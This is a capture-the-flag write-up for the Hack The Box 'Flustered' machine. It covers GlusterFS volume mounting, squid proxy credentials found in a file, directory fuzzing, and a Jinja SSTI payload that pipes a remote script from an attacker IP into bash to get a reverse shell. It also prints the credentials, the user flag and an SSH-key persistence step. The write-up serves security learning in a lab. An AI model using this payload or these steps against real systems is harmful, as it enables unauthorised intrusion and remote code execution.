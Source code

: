 # Flustered (Full Pwn)

## User

Starting with port scanning using nmap.
![nmap_scan](1.png)
We see a lot of ports open. In port 80 we see an empty webpage, fuzzing didn't help too. In 3128 there is http-proxy which might be useful later. We can't find anything interesting on most open ports. Searching the ports one by one we get an interesting result at the first link we find about 24007 port.
![google_glusterfs](2.png)
GlusterFS is a scale-out network-attached distributed storage file system. So we can mount the remote filesystem to our machine . We can install it using apt. Using gluster command we can list volumes from the remote machine.

` gluster --remote-host=10.129.96.25 volume list `

![gluster_list](3.png)
With ` volume info ` we can see more informations about the volumes. Now we mount the volumes to our system to enumerate for more information.

` mount -t glusterfs 10.129.96.25:/vol1 /mnt/gfsvol/ `

![gluster_list](7.png)
We can't mount the vol1.
![gluster_list](8.png)
We get the error cause we miss the ssl certificates to mount them. We mount the vol2 successfully. We can see a mysql directory and searching inside we can't find anything useful. In squid directory there is a file passwd.ibd and inside we found credentials.
![gluster_list](9.png)
We can use the credentials at squid proxy to see internal services in the machine. Using foxy proxy we navigate to 127.0.0.1 to see an nginx default page. Using proxychains to fuzz the web page. Edit the /etc/proxychains4.conf file to comment last line and the new one :
` http <IP> 3128 lance.friedman o>WJ5-jD<5^m3 `
Now we use proxychains command to go through squid proxy and fuzz the web page.
` proxychains -q wfuzz -c -w /usr/share/wordlists/dirb/big.txt --hc 404,400,403 -R5 -u http://127.0.0.1/FUZZ `
We discover an /app directory, but we get 403 forbidden, so fuzzing again the /app for more directories and files. Testing for .py files we got an app.py and got to the url and we prompt to download the file. Reading the source code we understand that it's the source code for the first web page out of the proxy. We can see that in title tag a function inside curly braces so can try ssti there to see if it's vulnerable.
![ssti_test](10.png)
And we get command execution. So we can get reverse shell in the machine with the following payload:

` {{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl http://10.10.14.38:8000/rev.sh | bash').read()}} `

We get reverse shell as www-data. Searching in /etc/ssl we find the certificates to access the vol1. We copy the files to our /etc/ssl/ directory and then mount the vol1 from gluster.
` mount -t glusterfs 10.129.96.25:/vol1 /mnt/gfsvol/ `
Now we can go to directory gfsvol to see the directories we mounted.
![vol1](4.png)
There is a directory named jennifer, probably a user of the remote machine, where we can see it's files. Inside there is the user.txt flag so we can read it.
![jennifer_dir](6.png)

**HTB{m0v1Ng_tHr0ugH_v0lUm3s_l1K3_a_jInj4}**

As it is a shared filesystem we can create our ssh keys and create the authorized_keys file to ssh into the machine.
